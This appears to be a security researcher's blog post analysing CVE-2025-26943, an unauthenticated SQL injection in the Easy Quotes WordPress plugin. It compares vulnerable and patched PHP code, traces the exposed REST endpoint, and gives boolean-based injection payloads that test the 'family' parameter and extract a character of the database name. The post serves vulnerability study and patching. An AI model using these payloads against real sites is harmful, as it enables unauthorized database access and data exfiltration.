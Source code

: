 # CVE-2025-26943 Analysis & POC


<!--more-->

A vulnerability exists in the **Easy Quotes** WordPress plugin prior to version **1.2.3**. This can allow an attacker to interact directly with your database, including but not limited to data exfiltration.

* **CVE ID**: [CVE-2025-26943](https://www.cve.org/CVERecord?id=CVE-2025-26943)
* **Product**: [WordPress Easy Quotes Plugin](https://wordpress.org/plugins/easy-quotes/#description)
* **Vulnerability Type**: SQL Injection
* **Affected Versions**: <= 1.2.2
* **CVSS severity**: High (9.3)
* **Required Privilege**: Unauthenticated

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Easy Quotes Plugin**: v1.2.2 (vulnerable) and v1.2.3 (fixed)
* **diff tool**: **meld** or any tool capable of comparing two versions to show differences

## Analysis

The application injects user-supplied data directly into an SQL query **without appropriate protections**, which leads to SQL Injection.

### Patch Diff

Use any diff tool to compare the vulnerable version and the patched version.
A clear difference exists in the file **includes/quotes-data.php**:

```php
private static function get_family_data($family) {
    /** @var wpdb $wpdb */
    global $wpdb;
    $tablename = $wpdb->prefix . 'easy-quotes-families';
    return $wpdb->get_row("SELECT * FROM `".$tablename."` WHERE `family`='".$family."';");
}
```

The patch uses `$wpdb->prepare()` instead of concatenating user-supplied data directly into the query:

```php
private static function get_family_data($family) {
    /** @var wpdb $wpdb */
    global $wpdb;
    $tablename = $wpdb->prefix . 'easy-quotes-families';
    $sql = $wpdb->prepare(
        "SELECT * FROM %i WHERE `family` = %s",
        $tablename, $family
    );
    return $wpdb->get_row($sql);
}
```

{{< figure src="patch_dif.png" caption="Patch diff" alt="Patch diff" >}}

Many other functions were patched the same way, such as `get_font_variant($family_id, $variant_id)`, `get_font_variants($family)`, and `get_fonts($category = -1)`.

Although `get_fonts_categories()` was also updated, it does not accept user input and is thus not relevant to the SQLi issue:

```php
public static function get_fonts_categories() {
    /** @var wpdb $wpdb */
    global $wpdb;
    $tablename = $wpdb->prefix . 'easy-quotes-categories';
    $sql = $wpdb->prepare(
        "SELECT `category_id`, `category` FROM %i",
        $tablename
    );
    return $wpdb->get_results($sql);
}
```

### How it works

We exploit the SQL Injection in the function `get_family_data($family)`, and other functions are vulnerable in a similar manner.

`get_family_data()` is a private function in the `Quotes_Data` class (the example below shows context):

```php
class Quotes_Data
{
    function __construct()
    {
        add_filter('posts_where', array($this, 'posts_where'), 10, 2);
    }

    // other functions

    public static function get_font_variants($family) {
        $familyData = self::get_family_data($family);
        // other logic
    }

    public static function get_family($family, $variant_id) {
        $family_data = (array)self::get_family_data($family);
        // other logic
    }

    private static function get_family_data($family) {
        /** @var wpdb $wpdb */
        global $wpdb;
        $tablename = $wpdb->prefix . 'easy-quotes-families';
        return $wpdb->get_row("SELECT * FROM `".$tablename."` WHERE `family`='".$family."';");
    }
}
```

`get_family_data()` is called by `get_family()` and `get_font_variants()`; to find where these are used, search for `get_family` or `get_font_variants`.

{{< figure src="search_func.png" caption="Search function" alt="Search function" >}}

The `get_font_variants()` function is invoked by `rest_route_callback_font_variants()` in the `Quotes_Rest_Route` class:

```php
class Quotes_Rest_Route
{
    function __construct()
    {
        add_action('rest_api_init', array($this, 'rest_api_init'));
    }

    /**
     * Register my REST route
     *
     * @return void
     */
    function rest_api_init($wp_rest_server)
    {
        $args = [
            'method'                => WP_REST_Server::READABLE,
            'callback'              => [$this, 'rest_route_callback_quote'],
            'permission_callback'   => '__return_true'
        ];
        register_rest_route('layart/v1', '/quote', $args);

        // other logic

        $args['callback'] = [$this, 'rest_route_callback_font_variants'];
        register_rest_route('layart/v1', '/font-variants', $args);
    }

    // other functions

    function rest_route_callback_font_variants(WP_REST_Request $request)
    {
        $family = $request->get_param('family');
        $family = isset($family) ? $family : "Shadows Into Light";

        $response = Quotes_Data::get_font_variants($family);
        return rest_ensure_response($response);
    }
}
```

The constructor of `Quotes_Rest_Route` uses `add_action('rest_api_init', ...)` to register endpoints with WordPress's REST API system.

The callback `rest_route_callback_font_variants` corresponds to the endpoint `/wp-json/layart/v1/font-variants?family=family_name`. If the `family` parameter is not provided, it defaults to `Shadows Into Light`.

## Exploit

### Detecting SQLi

We use a **Boolean-based SQL Injection** technique to test whether the `family` parameter is injectable.

**True request** (example):
When the injected condition evaluates to true, the query returns normally:

```sql
SELECT * FROM wp_easy-quotes-families WHERE family='Roboto' AND '1'='1';
```

**False request** (example):
When the injected condition is false, no results are returned:

```sql
SELECT * FROM wp_easy-quotes-families WHERE family='Roboto' AND '1'='2';
```

### Get First Letter of Database Name

A prerequisite to dumping data is being able to extract a single character of the database name; once you can obtain one character, you can typically extract the rest.

> In my test environment the database name is **wordpress**, so the first character is `w`.

{{< figure src="first_letter.png" caption="First letter" alt="First letter" >}}

A payload checking `SUBSTRING(DATABASE(),1,1)='w'` returns data normally, confirming the first letter is `w`:

```sql
SELECT * FROM wp_easy-quotes-families WHERE family='Roboto' AND SUBSTRING(DATABASE(),1,1)='w';
```

## Conclusion

The vulnerability **CVE-2025-26943** in the WordPress **Easy Quotes** plugin (versions prior to **1.2.3**) is caused by concatenating user-supplied input directly into SQL queries instead of using prepared statements (`$wpdb->prepare`), which results in SQL Injection.

The official patch replaces string concatenation with `$wpdb->prepare`, ensuring user input is safely handled.

**Key takeaways**:

* Always use `$wpdb->prepare()` when interacting with the database in WordPress to prevent SQL Injection.
* Regularly update plugins and perform security checks to avoid becoming an attack target.

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Easy Quotes Plugin <= 1.2.2 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/easy-quotes/vulnerability/wordpress-easy-quotes-plugin-1-2-2-sql-injection-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-09-23-cve-2025-26943/  

